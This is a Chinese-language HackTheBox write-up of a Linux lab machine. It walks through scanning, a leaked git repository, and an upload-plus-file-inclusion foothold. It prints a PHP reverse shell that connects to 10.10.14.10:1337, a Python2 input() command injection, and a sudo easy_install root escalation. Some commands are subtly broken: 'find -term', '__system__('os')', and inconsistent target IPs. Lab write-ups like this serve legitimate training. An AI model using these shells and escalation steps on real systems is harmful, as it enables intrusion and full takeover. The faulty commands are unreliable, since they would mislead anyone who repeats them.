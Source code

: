 ```yaml
---
title: HackTheBox-Upload
date: 2025-3-19 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```




# nmap 

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e:1f:98:d7:c8:ba:61:db:f1:49:66:9d:70:17:02:e7 (RSA)
|   256 c2:1c:fe:11:52:e3:d7:e5:f7:59:18:6b:68:45:3f:62 (ECDSA)
|_  256 5f:6e:12:67:0a:66:e8:e2:b7:61:be:c4:14:3a:d3:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Is my Website up ?
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

# 80端口

## **vhost扫描**

```
gobuster vhost -u http://10.10.11.177 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
ffuf -u "http://FUZZ.siteisup.htb" -w /usr/share/wordlists/amass/subdomains.lst -ms 200,301 -t 100
```

发现子域名dev.siteisup.htb

现将siteisup.htb加入DNS记录

## **目录扫描**

```
dirsearch -u http://10.10.11.117
dirsearch -u http://10.10.11.117/dev
gobuster dir -u http://10.10.11.177 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

扫目录发现/dev

访问/dev目录为空

继续扫/dev目录发现git文件泄露

使用git-dumper将git下载到本地进行分析，发现

.htaccess

```
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
```

dev.siteisup.htb需要添加一个特殊的**请求头**

```
Special-Dev:only4dev
```

还得到相关源码，index.php中有page参数，有文件包含漏洞，正好dev.siteisup.htb是文件上传，文件上传之后利用文件包含来执行，但是check.php对文件进行了限制，先上传phpinfo检查disable_function

proc_open没被禁用

```
反弹shell
<?php
$descriptorspec = array(
0 => array('pipe', 'r'), // stdin
1 => array('pipe', 'w'), // stdout
2 => array('pipe', 'a') // stderr
);
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.10/1337 0>&1'";
$process = proc_open($cmd, $descriptorspec, $pipes, null, null);
?>
```

# 提权

```
查找有suid权限的文件
find / -type f -term -u=s 2>/dev/null
```

找到siteisup，同目录下还有siteisup.py

```python
***siteisup.py***

import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"
```

执行siteisup时是以developer的权限执行的

input在Python2中是不安全的可以进行命令执行，行为类似于eval

```
执行__system__('os').system('/bin/bash')
```

得到developer权限，但是用户组还是www-data,无法访问user.txt但是可以访问.ssh，可以查看自己的公私钥，将私钥保存在本地，ssh连接develop，即可查看user.txt

sudo -l发现有/usr/local/bin/easy_install权限

easy_install可以进行sudo提权

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```

即可成功得到root权限